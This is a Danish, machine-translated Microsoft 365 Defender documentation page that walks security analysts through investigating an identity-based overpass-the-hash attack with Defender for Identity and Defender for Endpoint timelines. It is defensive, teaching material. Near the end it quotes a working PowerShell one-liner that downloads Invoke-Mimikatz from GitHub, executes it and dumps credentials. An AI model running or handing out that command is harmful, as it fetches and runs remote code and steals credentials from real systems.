 ```yaml
---
title: Eksempel på et identitetsbaseret angreb
description: Gennemgå en eksempelanalyse af et identitetsbaseret angreb.
keywords: hændelser, beskeder, undersøge, korrelation, angreb, maskiner, enheder, brugere, identiteter, identitet, postkasse, mail, 365, microsoft, m365, hændelsesrespons, cyberangreb
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 20b9fca87e003c0c776c9f614afaa1b6054c24a5
ms.sourcegitcommit: 3b8e009ea1ce928505b8fc3b8926021fb91155f3
ms.translationtype: MT
ms.contentlocale: da-DK
ms.lasthandoff: 03/28/2022
ms.locfileid: "64500271"
---
```

# <a name="example-of-an-identity-based-attack"></a>Eksempel på et identitetsbaseret angreb

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Gælder for:**
- Microsoft 365 Defender

Microsoft Defender for Identity kan hjælpe med at registrere ondsindede forsøg på at kompromittere identiteter i organisationen. Da Defender for Identity er integreret med Microsoft 365 Defender, kan sikkerhedsanalytikere få indsigt i trusler, der kommer fra Defender for Identity, f.eks. mistænkelige forsøg på at øge tilladelser for Netlogon.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Analyse af angrebene i Microsoft Defender for Identity

Microsoft 365 Defender gør det muligt for analytikere at filtrere beskeder ved at registrere **kilden** på fanen Beskeder på siden Hændelser. I følgende eksempel filtreres registreringskilden til **Defender for Identity**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Filtrering af registreringskilden i Microsoft Defender for Identity" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

Hvis du vælger **beskeden om et mistænkeligt overførings-hash-angreb**, går det til en side Microsoft Defender for Cloud Apps der viser mere detaljerede oplysninger. Du kan altid få mere at vide om en besked eller et angreb ved at vælge Få mere at vide om denne **beskedtype** for at læse en beskrivelse af angrebene [og](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) løsningsforslag.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="En mistænkelig overadgangsadvarsel om hash-angreb" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Undersøger det samme angreb i Microsoft Defender for Endpoint

Alternativt kan en analytiker bruge Defender til Slutpunkt til at få mere at vide om aktiviteten på et slutpunkt. Vælg hændelsen fra hændelseskøen, og vælg **derefter fanen Vigtige** beskeder. Herfra kan de også identificere registreringskilden. En registreringskilde, der er mærket Slutpunktsregistrering og -svar, står for Slutpunktsregistrering og -svar, som er Defender til slutpunkt. Herfra vælger analytikeren en besked, der er registreret af Slutpunktsregistrering og -svar.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Registrering af slutpunkt og svar i Microsoft Defender for Endpoint-portalen" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png"::: 

Siden med beskeder viser forskellige relevante oplysninger, som f.eks. den på påvirkede enheds navn, brugernavn, status for automatisk undersøgelse og oplysningerne om beskeden. Beskedens historie viser en visuel repræsentation af procestræet. Procestræet er en hierarkisk hierarkisk repræsentation af overordnede og underordnede processer, der er relateret til beskeden.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Et advarselsprocestræ i Microsoft Defender for Endpoint" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

Hver proces kan udvides for at få vist flere detaljer. Detaljer, som en analytiker kan se, er de faktiske kommandoer, der blev indtastet som en del af et skadeligt script, IP-adresser til udgående forbindelse og andre nyttige oplysninger.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Oplysninger om processen i Microsoft Defender for Endpoint portal" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
Ved at vælge **Se på tidslinjen** kan en analytiker analysere yderligere for at fastlægge det nøjagtige tidspunkt for kompromiset. 

Microsoft Defender for Endpoint kan registrere mange skadelige filer og scripts. På grund af mange legitime anvendelser til udgående forbindelser, PowerShell og kommandolinjeaktivitet betragtes visse aktiviteter som gode, indtil der oprettes en skadelig fil eller aktivitet. Brug af tidslinjen hjælper derfor analytikere med at sætte beskeden ind i konteksten med den omgivende aktivitet for at bestemme den oprindelige kilde eller klokkeslæt for de angreb, der ellers er skjult af almindeligt filsystem og brugeraktivitet. 

Hvis du vil bruge tidslinjen, starter en analytiker på tidspunktet for registrering af påmindelser (med rødt) og ruller bagud i tid for at afgøre, hvornår den oprindelige aktivitet, der førte til den ondsindede aktivitet, faktisk startede. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Analytikerens starttid for registrering af beskeder" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

Det er vigtigt at forstå og skelne almindelige aktiviteter som f.eks. Windows Update-forbindelser, Windows trafik til aktivering af software, der er tillid til, andre almindelige forbindelser til Microsoft-websteder, internetaktivitet fra tredjeparter, Microsoft Endpoint Configuration Manager-aktivitet og anden tilbedre aktivitet fra mistænkelig aktivitet. En måde at skelne på er ved at bruge tidslinjefiltre. Der er mange filtre, der kan fremhæve bestemt aktivitet, mens der filtreres fra alt, hvad analytikeren ikke vil have vist. 

På billedet nedenfor filtrerede analytikeren for kun at få vist netværks- og proceshændelser. Dette filterkriterie giver analytikeren mulighed for at se de netværksforbindelser og processer, der omgiver begivenheden, hvor Notesblok oprettede en forbindelse til en IP-adresse, hvilket vi også så i procestræet. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Hvordan Notesblok bruges til at oprette en ondsindet udgående forbindelse" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

I denne bestemte hændelse blev Notesblok brugt til at oprette en skadelig udgående forbindelse. Dog vil hackere ofte bruge iexplorer.exe til at etablere forbindelser til at downloade en ondsindet nyttedata, fordi iexplorer.exe processer betragtes som almindelig aktivitet i webbrowseren.

Et andet element, der skal søges efter på tidslinjen, er PowerShell bruger til udgående forbindelser. Analytikeren leder efter vellykkede PowerShell-forbindelser `IEX (New-Object Net.Webclient)` med kommandoer som f.eks. efterfulgt af en udgående forbindelse til et websted, der er vært for en skadelig fil. 

I følgende eksempel blev PowerShell brugt til at downloade og udføre Mimikatz fra et websted:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
En analytiker kan hurtigt søge efter nøgleord ved at skrive nøgleordet i søgefeltet for kun at få vist begivenheder, der er oprettet med PowerShell. 

## <a name="next-step"></a>Næste trin

Se stien [til phishingundersøgelse](first-incident-path-phishing.md) .

## <a name="see-also"></a>Se også

- [Oversigt over hændelser](incidents-overview.md)
- [Administrer hændelser](manage-incidents.md)
- [Undersøg hændelser](investigate-incidents.md)
